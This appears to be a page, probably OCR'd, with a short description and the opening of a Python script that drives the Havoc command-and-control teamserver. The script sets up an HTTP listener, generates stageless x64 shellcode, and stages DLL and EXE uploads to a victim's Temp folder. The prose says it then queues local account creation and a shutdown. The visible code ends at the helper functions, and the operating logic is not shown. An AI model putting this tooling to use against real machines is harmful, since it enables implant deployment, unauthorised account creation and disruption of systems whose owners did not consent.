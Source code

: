 The Python script below implements that end-to-end workflow. It provisions an HTTP listener, requests a stageless x64 shellcode payload, saves the payload to `artifacts/demon.x64.bin`, waits for the new agent created by executing that shellcode, and then runs the command sequence discussed earlier. PowerShell output for the PATH queries is written to disk, uploads and downloads are mirrored to the `artifacts/` directory, and the local account creation commands are queued before `Stop-Computer` is issued as the final step. Module shortcuts such as `samdump` still require porting the Qt module logic into your automation before you can add them to the queue.

```python
#!/usr/bin/env python3
import asyncio
import base64
import hashlib
import json
import os
import pathlib
import ssl
from datetime import datetime

import websockets

TEAMSERVER = "wss://127.0.0.1:40056/havoc/"
USERNAME = "operator"
PASSWORD = "super-secret"

LISTENER_NAME = "training-http"
LISTENER_BIND = "0.0.0.0"
LISTENER_PORT = 8443
LISTENER_HOSTS = ["0.0.0.0"]

ARTIFACT_DIR = pathlib.Path("artifacts")
SHELLCODE_PATH = ARTIFACT_DIR / "demon.x64.bin"

LOCAL_DLL = pathlib.Path("/home/kali/WptsExtensions.dll")
LOCAL_EXE = pathlib.Path("/home/kali/summon.exe")
REMOTE_DLL = r"C:\\Users\\Alice Malice\\AppData\\Local\\Temp\\WptsExtensions.dll"
REMOTE_EXE = r"C:\\Users\\Alice Malice\\AppData\\Local\\Temp\\summon.exe"

INIT_TYPE = 0x1
INIT_SUCCESS = 0x1
INIT_ERROR = 0x2
INIT_OAUTH = 0x3
INIT_PROFILE = 0x5
LISTENER_TYPE = 0x2
LISTENER_ADD = 0x1
LISTENER_ERROR = 0x5
SESSION_TYPE = 0x7
SESSION_NEW = 0x1
SESSION_INPUT = 0x3
SESSION_OUTPUT = 0x4
GATE_TYPE = 0x5
GATE_STAGELESS = 0x2


def timestamp():
    return datetime.utcnow().strftime("%m/%d/%Y %H:%M:%S")


def sha3(password):
    return hashlib.sha3_256(password.encode()).hexdigest()


def b64(data):
    return base64.b64encode(data).decode()
```